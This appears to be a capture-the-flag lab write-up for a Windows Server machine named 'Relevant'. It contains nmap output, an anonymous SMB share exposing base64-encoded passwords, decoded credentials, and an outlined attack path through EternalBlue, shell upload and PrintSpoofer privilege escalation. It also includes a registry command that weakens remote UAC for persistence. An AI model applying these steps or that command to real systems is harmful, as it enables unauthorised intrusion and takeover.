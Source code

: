 # Export
```md
export IP="10.10.190.154"
export URL="http://10.10.190.154:80/FUZZ"
```

<hr>

# Vulnerability
+ SMB file share allows anonymous access.
+ **Base64-encoded** passwords.
+ RCE 1: EternalBlue with `bob`'s credentials' → Administrator. (This method returns a semi-interactive shell, which is extremely unstable, need further persistence.)
+ RCE 2: Upload shell on SMB share → Access the shell with one of the web service.
+ Misconfugred privilege token `SeImpersonatePrivilege` → Privilege Escalation using `PrintSpoofer`.

<hr>

# Credentials Panel
+ `Bob - !P@$$W0rD!123`
+ `Bill - Juw4nnaM4n420696969!$$$`

<hr>

# Persistence
+ Enable `ADMIN$` share writable by everyone.

```bash
reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\system /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f
```

→ `psexec.py` to obtain interactive shell.

<hr>

# Nmap
```bash
PORT      STATE SERVICE       REASON          VERSION
80/tcp    open  http          syn-ack ttl 125 Microsoft IIS httpd 10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows Server
135/tcp   open  msrpc         syn-ack ttl 125 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 125 Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds  syn-ack ttl 125 Windows Server 2016 Standard Evaluation 14393 microsoft-ds
3389/tcp  open  ms-wbt-server syn-ack ttl 125 Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: RELEVANT
|   NetBIOS_Domain_Name: RELEVANT
|   NetBIOS_Computer_Name: RELEVANT
|   DNS_Domain_Name: Relevant
|   DNS_Computer_Name: Relevant
|   Product_Version: 10.0.14393
|_  System_Time: 2021-08-07T10:16:18+00:00
| ssl-cert: Subject: commonName=Relevant
| Issuer: commonName=Relevant
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2021-08-06T09:13:32
| Not valid after:  2022-02-05T09:13:32
| MD5:   cd39 25ee bdc8 3869 479a 119e 17e0 44b9
| SHA-1: 8302 b9c7 b55f 9581 7900 d696 924d 162a 527c 5d96
| -----BEGIN CERTIFICATE-----
| MIIC1DCCAbygAwIBAgIQGO/8WZ/trLhMbv41pDcJNjANBgkqhkiG9w0BAQsFADAT
| MREwDwYDVQQDEwhSZWxldmFudDAeFw0yMTA4MDYwOTEzMzJaFw0yMjAyMDUwOTEz
| MzJaMBMxETAPBgNVBAMTCFJlbGV2YW50MIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8A
| MIIBCgKCAQEApplWW/v/qOWSDENL4ddZoIvJGUe1wrndDbjq6ObZ1dzz67k8wUyz
| 1DWObAmwIFGyntzIEyL88PqtU+eiFp6F75jX+a/hb4ebprLJ3G2nEFk/6x5WY7Vb
| 8vcYfwKqWC0jId7JTbJWm5En/0KzGex+ur/k5FCy0HYpwRnWlx503D8aJ5hPmyyq
| FVJ0emQ67BqiSiJ/mLm377JYV4tdfY0jEcLAlgTakKyjz9vkj4hxK1ZcVafbItdG
| GHDSEztv6pH1C0BNgHW2dQiwYF5O3WvsjOuQfX3NkjpM12dt84l6V1nNaMiQabsO
| 4yfADA/lkC3uAolb6K2xLh0BHwgrte8kuwIDAQABoyQwIjATBgNVHSUEDDAKBggr
| BgEFBQcDATALBgNVHQ8EBAMCBDAwDQYJKoZIhvcNAQELBQADggEBAI14oWPpOT0L
| cw+gqHB4J45QqSahy8u4nozFv8vo58tIrqnG474s7gdLPqUDpe0jW3WvJGSknXpE
| hcdtUs31KRSLnz/Y4GXZgEQWLkFOdH3vxxw629a74APrJsZhO4IhqLUZeouI1P4K
| zc3e7unlh2ufX40EgOrz1h9hqj/MC6kyunBihEl+0xZqmqNClLB5shqIdxVvDY5F
| 6V/Y7qUGictPmKztOQvPLAllPTceSkCwdQZ2vDfFuJQt8X2Pu7bCI92vAEw3GtjI
| 2PZ3M6lUyHiIjeJwloZ0fcyOwlD33laCGtU0gaaXIIX2OeF6GmwU2EQcf/Lr8XuP
| p6B8Nt9BwSI=
|_-----END CERTIFICATE-----
|_ssl-date: 2021-08-07T10:16:58+00:00; 0s from scanner time.
49663/tcp open  http          syn-ack ttl 125 Microsoft IIS httpd 10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows Server
49667/tcp open  msrpc         syn-ack ttl 125 Microsoft Windows RPC
49669/tcp open  msrpc         syn-ack ttl 125 Microsoft Windows RPC
```


<hr>

# Web Application
#### Port 80
+ Discovery
+ Nothing is really interesting

#### Port 49663
+ Able to directly access SMB file share

```md
http://10.10.190.154:49663/nt4wrksv/passwords.txt

[User Passwords - Encoded]
Qm9iIC0gIVBAJCRXMHJEITEyMw==
QmlsbCAtIEp1dzRubmFNNG40MjA2OTY5NjkhJCQk
```

<hr>

# SMB
+ Allows anonymous login
+ Files shares

```bash
Enter WORKGROUP\root's password: 

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        nt4wrksv        Disk
```

+ The `nt4wrksv` share contains the file `passwords.txt`.

```bash
smb: \> ls
  .                                   D        0  Sat Jul 25 17:46:04 2020
  ..                                  D        0  Sat Jul 25 17:46:04 2020
  passwords.txt                       A       98  Sat Jul 25 11:15:33 2020

                7735807 blocks of size 4096. 5142794 blocks available
```

+ Directory `nt4wrksv` is writable.

<hr>

# RDP
+ Try to login with found creds but failed.

